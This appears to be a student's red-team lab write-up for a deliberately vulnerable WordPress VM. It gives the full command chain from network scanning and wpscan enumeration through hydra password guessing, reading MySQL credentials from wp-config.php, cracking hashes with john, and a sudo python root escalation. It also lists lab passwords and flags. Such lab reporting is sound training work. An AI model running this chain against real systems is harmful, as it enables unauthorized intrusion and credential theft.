 # Red Team: Summary of Operations

## Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation

### Exposed Services

Netdiscover results identify the IP addresses of Targets on the network:

```bash
`$ netdiscover -r 192.168.1.255/16`  
```
![](images/netdiscover.png)

Nmap scan results for each machine reveal the below services and OS details:

```bash
`$ nmap -sV 192.168.1.110`
```
![](images/nmap-sV.png)

Name of VM: `Target 1`  
Operating System: `Linux`  
Purpose: `Defensive Blue Team`  
IP Address: `192.168.1.110`


```bash
`$ nmap -sS -sV -O 192.168.1.0/24`
```
![](images/nmap-sS-sV-O1.png)
![](images/nmap-sS-sV-O2.png)
![](images/nmap-sS-sV-O3.png)
![](images/nmap-sS-sV-O4.png)

This scan identifies the services below as potential points of entry:
- `Target 1` (192.168.1.110)
  - Port 22/tcp open ssh (service) OpenSSH 6.7p1 Debian 5+deb8u4  
  - Port 80/tcp open http (service) Apache httpd 2.4.10 ((Debian))  
  - Port 111/tcp open rpcbind (service) 2-4 (RPC #100000)  
  - Port 139/tcp open netbios-ssn (services) Samba smbd 3.X - 4.X  
  - Port 445/tcp open netbios-ssn (services) Samba smbd 3.X - 4.X  

The following vulnerabilities were identified on **`Target 1`**:
- `Target 1` (192.168.1.110)
  - [CVE-2021-28041 open SSH](https://nvd.nist.gov/vuln/detail/CVE-2021-28041)  
  - [CVE-2017-15710 Apache https 2.4.10](https://nvd.nist.gov/vuln/detail/CVE-2017-15710)
  - [CVE-2017-8779 exploit on open rpcbind port could lead to remote DoS](https://nvd.nist.gov/vuln/detail/CVE-2017-8779)  
  - [CVE-2017-7494 Samba NetBIOS](https://nvd.nist.gov/vuln/detail/CVE-2017-7494)  

### Critical Vulnerabilities 

The following vulnerabilities were identified on `Target 1`.  

- Network Mapping and User Enumeration (WordPress site)
  - Nmap was used to discover open ports.  
    - Able to discover open ports and tailor their attacks accordingly.  
- Weak User Password  
  - A user had a weak password and the attackers were able to discover it by guessing.  
    - Able to correctly guess a user's password and SSH into the web server.  
- Unsalted User Password Hash (WordPress database)  
  - Wpscan was utilized by attackers in order to gain username information.  
    - The username info was used by the attackers to help gain access to the web server.  
- MySQL Database Access  
  - The attackers were able to discover a file containing login information for the MySQL database.  
    - Able to use the login information to gain access to the MySQL database.  
- MySQL Data Exfiltration  
  - By browsing through the various tables in the MySQL database the attackers were able to discover password hashes of all the users.  
    - The attackers were able to exfiltrate the password hashes and crack them with John the Ripper.  
- Misconfiguration of User Privileges Escalation  
  - The attackers noticed that Steven had sudo privileges for python.  
    - Able to utilize Steven’s python privileges in order to escalate to root.  


### Exploitation

The Red Team was able to penetrate `Target 1` and retrieve the following confidential data:
- Target 1

- Enumerated WordPress site Users with WPScan to obtain username michael, used SSH to get user shell.  
- Command used: wpscan --url http://192.168.1.110/wordpress -eu  

```bash
root@Kali:~# wpscan --url http://192.168.1.110/wordpress -eu
```  
![](images/wpscan.png)
![](images/wpscan1.png)

- **Exploit Used**
- `ssh` as user `michael` with password.
    - Users are able to `ssh` with a password instead of requiring an `ssh` key.
    - User `michael` had a weak password(Brute forced with `hydra`)
- ![hydrascan](images/hydra.png)

 - ssh into **`Michael’s`** account and look in the/var/www files
  - **Command:** `ssh michael@192.168.1.110`  
  - The username and password **`michael`** were identical, allowing for the ssh connection.  
  ![Michael's Password](images/michael.png)  
  
  - **Command:** `cd /var/www`  
  - **Command:** `ls`  
  - **Command:** `grep -RE flag html`  
  - **`flag1`** was part of the long printout.
  ![Flag1 Printout](images/flag1.png)

**Flag 2**  
- flag2.txt: `flag2{fc3fd58dcdad9ab23faca6e9a36e581c}`  
  - Exploit Used  
    - **Command:** `ssh into Michael’s account and look in the /var/www files`  
    - **Command:** `cd /var/www`  
    - **Command:** `ls -lah`  
    - **Command:** `cat flag2.txt`  
![Flag2 txt](images/flag2.png)  

**Flag 3**  
- flag3.txt: `flag3{afc01ab56b50591e7dccf93122770cd2}`  
![Flag3](images/flag3.png)  
  - Exploit Used  
    - Continued using michael shell to find the `MySQL database` password, logged into `MySQL database`, and found `Flag 3` in wp_posts table.  
    - **Command:** `cd /var/www/html/wordpress/`  
    - **Command:** `cat /var/www/html/wordpress/wp-config.php`  
![WP-CONFIG](images/mysql.png)

- Used the credentials to log into MySQL and dump WordPress user password hashes.  
  - **DB_NAME:** `wordpress`  
  - **DB_USER:** `root`  
  - **DB_PASSWORD:** `R@v3nSecurity`  
  - **Command:** `mysql -u root -p`

```bash
$ mysql -u root -p  
```  
- Searched MySQL database for `Flag 3` and `WordPress` user password hashes.  
  - **`Flag 3`** found in `wp_posts`.  
  - **Password hashes** found in `wp_users`.  
  - **Command:** `show databases;`  
  - **Command:** `use wordpress;`  
  - **Command:** `show tables;`  
  - **Command:** `select * from wp_posts;`  
![Access to MYSQL](images/mysql1.png) 
![Database](images/mysql2.png)  
![Database](images/mysql2.png)

  - `Flag 3` and `Flag 4` were part of the `wp_post`.  
- Screenshot of WordPress user password hashes: 
  - **Command:** `select * from wp_users;`  

![Password Hashes from wp_users](images/hashes.png)  

**Flag 4**  
- flag4.txt: `flag4{715dea6c055b9fe3337544932f2941ce}`
  - Exploit Used
    - Used `john` to crack the password hash obtained from MySQL database, secured a new user shell as Steven, escalated to root.  
    - Cracking the password hash with `john`.  
    - Copied password hash from `MySQL` into _`~/root/wp_hashes.txt`_ and cracked with `john` to discover `Steven’s` password is **`pink84`**.  
      - **Command:** `john wp_hashes.txt`
![John Hashes Password](images/john.png)  
      - **Command:** `john --show wp_hashes.txt`  
  - Secure a user shell as the user whose password you cracked.
    - **Command:** `ssh steven@192.168.1.110`  
    - **Password:** `pink84`  
  - Escalating to root:  
    - **Command:** `sudo -l`  
![Sudo Steven's Account]()  
    - `sudo python -c ‘import pty;pty.spawn(“/bin/bash”)’`  
```bash    
$ sudo python -c ‘import pty;pty.spawn(“/bin/bash”)’
```  
  - Searched for the root directory for `Flag 4`.  
    - **Command:** `cd /root/`  
    - **Command:** `ls`  
    - **Command:** `cat flag4.txt`
  - Screenshot of `Flag 4`:  
![Flag 4](images/flag4.png)

### Submitted By - Aziz Somani
